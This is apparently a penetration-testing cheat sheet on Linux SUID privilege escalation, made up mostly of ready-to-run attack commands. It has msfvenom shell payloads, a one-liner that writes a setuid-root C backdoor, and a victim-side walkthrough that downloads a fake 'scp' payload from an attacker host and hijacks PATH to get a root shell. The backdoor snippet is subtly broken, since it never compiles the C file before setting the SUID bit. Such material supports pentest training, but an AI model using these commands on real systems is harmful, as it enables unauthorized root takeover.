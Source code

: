 Tools:
* https://github.com/sleventyeleven/linuxprivchecker
* https://github.com/rebootuser/LinEnum

#### SUID Privilege Escalation

Note: `setuid` bit simply allows a script to set the `uid`. The script still needs to call `setuid()` or `setreuid()` to run in the the real uid or effective uid respectively. Without calling `setuid()` or `setreuid()`, the script will still run as the user who invoked the script: https://stackoverflow.com/a/20687988/4908573

Ensure to use "PrependSetuid=true" when generating a binary that is going to be directly used in SUID privilege escalation:
```sh
msfvenom -p linux/x86/exec cmd=/bin/bash PrependSetuid=true -f elf -o shell
```

Resources:
* https://twitter.com/mubix/status/2049242113777664
* http://linux4dummy.blogspot.sg/2012/05/creating-basic-backdoor-for-linux.html

Or instead of using an "exec" binary to give you a shell, manually setuid in C, compile, run:
```sh
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
sudo chown root:root /tmp/setuid
sudo chmod 4755 /tmp/setuid
/tmp/setuid
```

##### Simple PATH SUID Privilege Escalation
```
# On Victim
bob@sufferance:~$ ls -l /usr/local/bin/uploadtosecure
-rwsr-xr-x 1 root root 6923 2008-10-07 19:38 /usr/local/bin/uploadtosecure
bob@sufferance:~$ strings /usr/local/bin/uploadtosecure
puts
system
...
Archiving files to secure server...
scp -r file/tobesecured/* 10.192.168.1.23:/var/www/html/files/

# On Kali
msfvenom -p linux/x86/exec CMD=/bin/sh -f elf -o scp

# On Victim
wget 192.168.1.23/scp -O /tmp/scp # transfer the exec binary over to Sufferance
chmod 755 /tmp/scp
export PATH=/tmp:$PATH
/usr/local/bin/uploadtosecure # it'll now call our "special" scp binary in /tmp instead
whoami
```

##### Bypass Absolute Binary Paths with IFS
If the binary being called is absolute (eg. `/usr/bin/scp`), you can export `IFS=/`. The SUID binary will now execute `usr bin scp`. Drop a `usr` binary into `/tmp` and add it to PATH.
